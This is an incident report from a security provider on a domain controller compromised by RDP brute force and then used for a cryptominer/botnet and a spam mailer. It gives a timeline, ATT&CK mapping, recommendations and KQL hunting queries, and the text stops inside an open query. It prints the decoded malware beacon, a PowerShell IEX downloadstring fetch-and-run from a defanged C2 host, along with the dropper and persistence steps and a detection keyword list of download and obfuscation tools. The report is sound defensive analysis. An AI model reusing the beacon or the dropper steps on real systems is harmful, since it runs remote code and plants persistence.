# 🔒 Security Incident Report — Domain Controller Compromise (Cryptominer/Botnet & Spam Tool)

**Client:** Maple Tax Solutions (MTS)  
**Severity:** CRITICAL · **MSSP:** MahCyberDefense · **Analyst:** Daniel Thibodeaux  
**Report Date:** 2026-06-23

---

## 1.  Report Title

Domain Controller Compromise — Cryptominer/Botnet and Spam-Tool Deployment

## 2.  Date of Report

2026-06-23

## 3.  Reported By

Daniel Thibodeaux, MahCyberDefense SOC.

## 4.  Severity Level

**CRITICAL **— Confirmed external compromise of a domain controller holding Active Directory, file-share, and RDP roles, with persistent administrator-level access, SYSTEM-level cryptominer/botnet malware (C2 v[.]beahh[.]com), an attacker-run spam/phishing distribution tool.

## 5.  Summary of Findings

The client reported a sharp spike in Azure cost driven by network bandwidth on a virtual machine shown in the portal as “Temp-MTS-DC.” Azure Monitor metrics confirmed approximately 626.8 GB of outbound (egress) data and ~1 GB inbound from this VM beginning Jun 14, 2026 at roughly 21:15 UTC and tapering off through Jun 16.

The organization's DC (internal IP 192.168.10.8) is intentionally internet-exposed. Endpoint logon telemetry shows the DC was subjected to sustained RDP/network-logon brute-force activity for weeks, and that one external IP, 212.205.155.60, achieved successful administrator logons beginning Jun 11, 2026 and continued authenticating at a regular automated cadence through Jun 16 — a window that fully brackets the data-egress event.

The root cause is a confirmed compromise of an internet-exposed domain controller via successful credential brute force, giving an external actor persistent local-administrator access. Full log analysis across all endpoint tables establishes the attacker deployed cryptomining/botnet malware that runs as SYSTEM and beacons to the known C2 domain v[.]beahh[.]com. In addition, the attacker installed scheduled-task persistence, and ran Heart-Sender-V1.2.exe, a known spam/phishing distribution (“mailer”) tool, from the administrator account’s Downloads folder.

This malware and tooling, active across Jun 13–16, provides a confirmed malicious mechanism for sustained anomalous outbound traffic during the egress window. The exact byte-level attribution of the 626 GB to specific processes **could not be proven**, because the network-flow telemetry was not enabled. 

**In short: the compromise, the responsible IP, the access timeline, and the deployed malware are all confirmed. The precise breakdown of the 626 GB across specific channels cannot be determined due to a telemetry gap — however, the egress is consistent with, and best explained by, the DC operating as an actively compromised, malware-infected crypto-bot host under attacker control throughout the window.**

## 6.  Investigation Timeline

*Event timeline (attacker activity and analyst actions; all times UTC):*

| **Date / Time (UTC)** | **Device** | **Event Description** |
| --- | --- | --- |
| **2026-05-30 onward** | **MTS-DC** | Sustained RDP/network-logon brute force from multiple IPs (45.227.254.151, 45.227.254.156, 45.142.193.166) cycling large username wordlists. All attempts in this set failed. |
| **2026-06-11 16:24** **~ 2026-06-16** | **MTS-DC** | First successful administrator LogonSuccess from 212.205.155.60. Successful logons recur at a regular ~2-hour automated interval, day and night, through Jun 16. |
| **2026-06-13 17:47** | **MTS-DC** | Malware dropper executes as SYSTEM: cmd /c call c:\windows\temp\tmp.vbs → drops c:\windows\PLMcFw.exe and c:\windows\ireidJ.exe, opens TCP 65533 (netsh firewall + portproxy), and creates scheduled-task persistence |
| **2026-06-13 onward** | **MTS-DC** | Recurring SYSTEM PowerShell beacon to C2: decoded payload IEX (New-Object Net.WebClient).downloadstring('hxxp://v[.]beahh[.]com/v'+$env:USERDOMAIN), fired every ~30–50 min. |
| **2026-06-14 ~21:15** | **MTS-DC** | Azure Monitor Network Out begins climbing sharply on “Temp-MTS-DC,” peaking ~65–70 GiB/hour and plateauing; total ~626.8 GB outbound over the event window. This is the cost spike the client reported in his screenshot. |
| **2026-06-15 12:28** | **MTS-DC** | Successful administrator logon from 212.205.155.60; guest account logon observed shortly after admin successes. |
| **2026-06-15 22:01–22:12** | **MTS-DC** | Interactive RDP session as administrator (explorer, ServerManager, msedge); attacker runs Heart-Sender-V1.2.exe (spam/phishing mailer) from C:\Users\administrator\Downloads\. |

## 7.  Who, What, When, Where, Why, How

| **Who** | External threat actor operating primarily from 212.205.155.60 (achieved access), with brute-force support. Compromised account: local administrator (mts\administrator) on the domain controller. |
| --- | --- |
| **What** | Successful credential brute force against an internet-exposed domain controller, resulting in persistent administrator access; deployment of SYSTEM-level cryptominer/botnet malware (C2 v[.]beahh[.]com) with scheduled-task persistence; an attacker-run spam/phishing distribution tool (Heart Sender); and an anomalous ~626.8 GB outbound data transfer. |
| **When** | 2026-05-30 UTC ~ Brute force 2026-06-11 16:24 UTC First confirmed successful admin logon 2026-06-13 17:47 UTC Malware dropper/persistence onward. 2026-06-15 22:12 UTC Spam tool run 2026-06-14 ~21:15 UTC ~2026-06-16 Data egress through |
| **Where** | MTS-DC, internal IP 192.168.10.8 — the production Active Directory domain controller, file server, and RDP host. Intentionally internet-exposed. |
| **Why** | Monetization of a compromised host: cryptomining/botnet resource hijacking and spam/phishing distribution, with probable data theft given the large egress and the DC’s file-server role. Mining/spam intent is confirmed by the deployed tooling; data-theft intent is inferred from the egress volume. |
| **How** | Initial access: brute force of RDP / network logon against the public-facing DC until valid administrator credentials succeeded. Persistence: dropper (tmp.vbs) writing PLMcFw.exe / ireidJ.exe to C:\Windows\ and several SYSTEM scheduled tasks; recurring PowerShell beacon to hxxp://v[.]beahh[.]com via base64-encoded IEX downloadstring; TCP 65533 opened via netsh firewall + portproxy. Hands-on activity: interactive RDP as administrator running Heart-Sender-V1.2.exe (spam/phishing mailer). Egress: ~626.8 GB left the VM during the access window, consistent with the combined activity of the botnet/miner and mailer plus possible data theft. The exact byte split across channels is unproven due to missing flow telemetry. |

## 8.  MITRE ATT&CK Techniques

| **Tactic** | **Technique (ID)** | **Observation in this incident** |
| --- | --- | --- |
| Initial Access | T1190 Exploit Public-Facing Application / Asset | Domain controller intentionally exposed to the internet on RDP/SMB. |
| Credential Access | T1110.001 / T1110.003 Brute Force (Password Guessing / Spraying) | Weeks of failed logons cycling large username wordlists from 45.x IPs. |
| Initial Access | T1078.001 Valid Accounts (Local) | Successful, repeated mts\administrator logons from 212.205.155.60 from Jun 11 onward. |
| Persistence | T1078 Valid Accounts | Automated ~2-hour admin logon cadence maintaining access across days. |
| Execution | T1059.001 Command & Scripting: PowerShell | Base64-encoded IEX downloadstring beacon to hxxp://v[.]beahh[.]com via the Bluetool task. |
| Persistence | T1053.005 Scheduled Task/Job | SYSTEM tasks Bluetool, PLMcFw, mmYIZp, WaidN created via schtasks /ru system. |
| Command & Control | T1105 / T1571 Ingress Tool Transfer / Non-Standard Port | Downloadstring from C2 v[.]beahh[.]com; TCP 65533 opened via netsh portproxy. |
| Impact | T1496 Resource Hijacking (cryptomining/botnet) | Dropped PLMcFw.exe / ireidJ.exe and random-named C:\Windows\ binaries executing on 10-min timers. |
| Defense Evasion | T1036 Masquerading | Malware staged as svchost.exe / dig.exe in C:\windows\temp before relocation. |
| Collection / Exfiltration | T1041 / T1048 Exfiltration (channel unconfirmed) | ~626.8 GB outbound during the access window; byte-level attribution not captured. |
| Initial Access (Heart Sender) | T1566 — Phishing (outbound distribution) | Heart-Sender-V1.2.exe spam/phishing mailer run interactively as administrator. |

## 9.  Impact Assessment

- The MTS Domain controller was under confirmed external administrator control for multiple days and was actively running cryptominer/botnet malware (C2 v[.]beahh[.]com) and an attacker-operated spam/phishing mailer. This should be treated as a full AD/domain compromise until proven otherwise.

- According to information received from the CEO, approximately 626.8 GB left the DC during the access window. Given the DC’s file-server role, the firm’s handling of sensitive Canadian client tax data, and the presence of an active spam tool and botnet beaconing, potential exposure of confidential client/financial data must be assumed and the host treated as a spam/abuse source.

- Because a DC was compromised, all domain credentials, cached secrets, and the AD database (NTDS.dit) must be considered potentially exposed; this enables further lateral movement and persistence beyond the single host.

- Compromise, responsible IP, access timeline, and the deployed malware/tooling (C2 beacon, persistence tasks, dropped binaries, Heart Sender) are CONFIRMED. The exact split of the 626 GB across the botnet/miner, the mailer, and any data theft is UNPROVEN due to the absence of flow-level network telemetry on the DC.

## 10.  Recommendations / Next Steps

**Immediate containment:**

- Isolate mts-dc.mts.local from the network pending eradication.

- Remove the DC’s direct internet exposure; place RDP/SMB behind VPN or a bastion and disable inbound 3389/445 from the public internet.

- Force a domain-wide credential reset, prioritizing the local administrator and all privileged/service accounts; treat the AD database as potentially compromised and plan DC rebuild/recovery accordingly.

- If possible, block the following IPs at the perimeter and add to watchlists: **212.205.155.60** (achieved access), **103.233.169.123**, **45.227.254.151, 45.227.254.156, 45.142.193.166** (brute-force sources).

**Eradication ****&**** investigation:**

- Treat mts-dc.mts.local as fully compromised: rebuild from known-good media rather than clean-in-place. Remove the malicious scheduled tasks, the dropped binaries, staging files, and the TCP 65533 firewall opening / portproxy rule.

- Block C2 domain **v[.]beahh[.]com** at DNS/proxy and add to threat intel; hunt this indicator and the TCP 65533 portproxy across the estate.

- Add the malware file hashes (PLMcFw.exe, ireidJ.exe, Heart-Sender-V1.2.exe, the random-named binaries) to the EDR blocklist once collected from the host.

**Detection-gap remediation (so a future event is answerable):**

- Enable Network Security Group Flow Logs + Traffic Analytics on all internet-facing assets. The 626 GB destination was unrecoverable specifically because this telemetry did not exist. Closing this gap is the single highest-value preventative action moving forward.

## 11. Attachments / Evidence

### A. Initial access — RDP/network-logon brute force

**A-1: Brute-force failures against the DC (the spray)**



```kql
DeviceLogonEvents
| where Timestamp between (datetime(2026-05-28T00:00:00Z) .. datetime(2026-06-16T12:00:00Z))
| where DeviceName == "mts-dc.mts.local"
| where ActionType == "LogonFailed"
| summarize Attempts = count(), DistinctUsernames = dcount(AccountName) by RemoteIP
| order by Attempts desc
```

**A-2: The username wordlist itself (evidence it's a dictionary, not real users)**



```kql
DeviceLogonEvents
| where Timestamp between (datetime(2026-05-28T00:00:00Z) .. datetime(2026-06-16T12:00:00Z))
| where DeviceName == "mts-dc.mts.local"
| where ActionType == "LogonFailed"
| summarize Attempts = count() by AccountName
| order by Attempts desc
```

**A-3: Successful administrator logons (the breach + responsible IPs)**

The decisive query: brute force succeeded; identifies 212.205.155.60.



```kql
DeviceLogonEvents
| where Timestamp between (datetime(2026-06-11T00:00:00Z) .. datetime(2026-06-16T12:00:00Z))
| where DeviceName == "mts-dc.mts.local"
| where ActionType == "LogonSuccess"
| where AccountName == "administrator"
| where RemoteIPType == "Public"
| summarize LogonCount = count() by AccountName, LogonType, RemoteIP
| where LogonCount > 1
| order by LogonCount desc
```

**A-4: Focusing on 212.205.155.60 as it shows several logon attempts which line up with the known attack time at ~2 hour intervals. From Jun 11, 2026 4:24:03 PM to Jun 16, 2026 8:36:08 AM.**









```kql
DeviceLogonEvents
| where Timestamp between (datetime(2026-06-11T00:00:00Z) .. datetime(2026-06-16T12:00:00Z))
| where DeviceName == "mts-dc.mts.local"
| where ActionType == "LogonSuccess"
| where AccountName == "administrator"
| where RemoteIP == "212.205.155.60"
| project TimeGenerated, DeviceName, ActionType, AccountName, RemoteIP
| order by TimeGenerated asc
```

### B. Egress correlation

**B-1: DC inbound exposure / scanning vs. the responsible IP**

Shows the public-facing service ports being hit; corroborates exposure.

We see 1,024 successful inbound connections (InboundConnectionAccepted) over port 3389 (RDP) coming from 609 distinct public IP addresses.

Port 139 is a networking port primarily used by the NetBIOS Session Service (NBSS) to enable file and printer sharing over a Windows network.

Port 9389 is the default TCP port used by Microsoft Active Directory Web Services (ADWS)



```kql
DeviceNetworkEvents
| where Timestamp between (datetime(2026-06-11T00:00:00Z) .. datetime(2026-06-16T12:00:00Z))
| where DeviceName == "mts-dc.mts.local"
| where RemoteIPType == "Public"
| summarize Conns = count(), DistinctRemoteIPs = dcount(RemoteIP) by LocalPort, ActionType
| order by Conns desc
```

**B-2: SMB (445) activity from the successful-access IP**

212.205.155.60 hammering 445 during the window.



```kql
DeviceNetworkEvents
| where Timestamp between (datetime(2026-06-11T00:00:00Z) .. datetime(2026-06-16T12:00:00Z))
| where DeviceName == "mts-dc.mts.local"
| summarize Events = count() by ActionType, LocalPort, RemoteIP
| order by Events desc
```

### C. Malware deployment — dropper, persistence, C2

**C-1: Blanket dropper-behavior hunt (the entry point for this phase)**

The following query is a general blanket query that looks for

PowerShell Obfuscation & Execution

Stealth & Bypass Parameters

Web Downloads (Payload Delivery)

Script Interpreters & Living off the Land

Persistence & Evasion (System Changes)

Network Manipulation



```kql
DeviceProcessEvents
| where Timestamp between (datetime(2026-06-11T00:00:00Z) .. datetime(2026-06-16T12:00:00Z))
| where DeviceName == "mts-dc.mts.local"
| where ProcessCommandLine has_any (
```

"-enc","-e ","-ep ","FromBase64String","DownloadString","DownloadFile",

"IEX","Invoke-Expression","-w hidden","-nop","bypass",

"portproxy","netsh firewall","schtasks","/create","reg add",

".vbs","cscript","wscript","certutil","bitsadmin","mshta")

```kql
| project Timestamp, AccountName, FileName, FolderPath, ProcessCommandLine, InitiatingProcessFileName
| order by Timestamp asc
```

**C-2: The dropper chain artifacts (narrowing to the specific files)**

Here we find an extremely long and highly suspicious cmd command.

Breakdown of cmd command here

Command reached out to v[.]beahh[.]com





```kql
DeviceProcessEvents
| where Timestamp between (datetime(2026-06-11T00:00:00Z) .. datetime(2026-06-16T12:00:00Z))
| where DeviceName == "mts-dc.mts.local"
| where ProcessCommandLine has "tmp.vbs"
```

or ProcessCommandLine has "PLMcFw"

or ProcessCommandLine has "ireidJ"

or ProcessCommandLine has "portproxy"

```kql
| project Timestamp, AccountName, FileName, FolderPath, ProcessCommandLine
| order by Timestamp asc
```

**C-3: Scheduled-task persistence creation**



```kql
DeviceProcessEvents
| where Timestamp between (datetime(2026-06-11T00:00:00Z) .. datetime(2026-06-16T12:00:00Z))
| where DeviceName == "mts-dc.mts.local"
| where FileName =~ "schtasks.exe"
| where ProcessCommandLine has "/create"
| project Timestamp, AccountName, ProcessCommandLine
| order by Timestamp asc
```

**C-4: C2 network confirmation (beacon reaching out to v[.]beahh[.]com)**

Corroborates the decoded payload with an actual outbound connection / DNS.



```kql
DeviceNetworkEvents
| where Timestamp between (datetime(2026-06-11T00:00:00Z) .. datetime(2026-06-16T12:00:00Z))
| where DeviceName == "mts-dc.mts.local"
| where RemoteUrl has "beahh" or RemoteUrl has "v.beahh.com"
| project Timestamp, InitiatingProcessFileName, RemoteUrl, RemoteIP, RemotePort, ActionType
| order by Timestamp asc
```

**C-5: Dropper file artifacts on disk (svchost.exe / tmp.vbs)**



```kql
DeviceFileEvents
| where Timestamp between (datetime(2026-06-11T00:00:00Z) .. datetime(2026-06-16T12:00:00Z))
| where DeviceName == "mts-dc.mts.local"
| where FolderPath has @"windows\temp" or FolderPath has @"C:\Windows\"
| where FileName in~ ("tmp.vbs","svchost.exe","ipc.txt","dig.exe","PLMcFw.exe","ireidJ.exe")
| project Timestamp, ActionType, FileName, FolderPath, FileSize, InitiatingProcessFileName, InitiatingProcessAccountName
| order by Timestamp asc
```

### D. Hands-on-keyboard activity — spam tool

**D-1: Interactive administrator RDP session (hands-on-keyboard)**

Attacker is in an interactive RDP session → browses in Edge → downloads the Heart-Sender (in E2 below) zip (10:11:26) → unpacks it a minute later (10:12:33) → and almost immediately deletes the executable (10:12:41).



```kql
